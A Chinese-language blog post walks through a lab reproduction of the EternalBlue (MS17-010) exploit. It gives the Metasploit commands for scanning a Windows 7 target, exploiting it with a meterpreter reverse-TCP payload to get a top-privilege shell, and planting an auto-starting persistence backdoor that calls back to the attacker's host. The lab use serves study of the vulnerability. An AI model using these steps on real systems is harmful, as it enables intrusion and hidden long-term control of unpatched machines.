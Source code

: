 ```yaml
---
title: 永恒之蓝漏洞复现
date: 2019-08-04 17:07:47
tags: 信息安全
categories: 信息安全
---
```


## 前言

永恒之蓝是美国国家安全局开发的漏洞利用程序，该工具利用445/TCP端口的文件分享协议的漏洞进行传播。尽管微软与17年3月份就发布了该漏洞的补丁，然而并没有引起多大的重视，直到17年5月12日WannaCry勒索病毒爆发时，很多用户因未安装补丁而受害。


## 基本环境

- Kali Linux (IP: 192.168.190.135)
- Metasploit工具
- 靶机，MSDN下载的win7  (IP: 192.168.190.136)

win7中开启文件共享

## 漏洞探测

先启动msfconsole，输入如下指令：

```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010 
msf5 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.190.136
RHOSTS => 192.168.190.136
msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.190.136:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] 192.168.190.136:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

从上述结果可知：该win7存在漏洞

## 开始攻击

执行如下指令：

```bash
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.190.135
LHOST => 192.168.190.135
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.190.136
RHOSTS => 192.168.190.136
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

第一行指令意思是加载Metasploit中的EternalBlue攻击模块，第四行是设置shell的通信类型，payload中装载的是漏洞利用成功后在目标机器上执行的代码

结果如下：

{% img /images/永恒之蓝漏洞复现1.PNG %}

执行一下`shell`指令：

{% img /images/永恒之蓝漏洞复现2.PNG %}

可以看到，我们已获得目标机器的最高权限的shell

## 权限维持

metasploit自带的留后门方式有两种：metsvc和persistence，但都有弊端，官方都不推荐使用，这里使用persistence试下

执行如下指令即可在目标机器中留一个后门：

```bash
meterpreter > run persistence -U -i 10 -p 4444 -r 192.168.190.135
```

其中：

- -U：设置后门在用户登录后自启动。
- -i：设置反向连接间隔时间，单位为秒。
- -p：设置反向连接的端口号。
- -r：设置反向连接的ip地址。

之后可以使用handler模块进行连接

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set LHOST 192.168.190.135
LHOST => 192.168.190.135
msf5 exploit(multi/handler) > exploit
```

---
完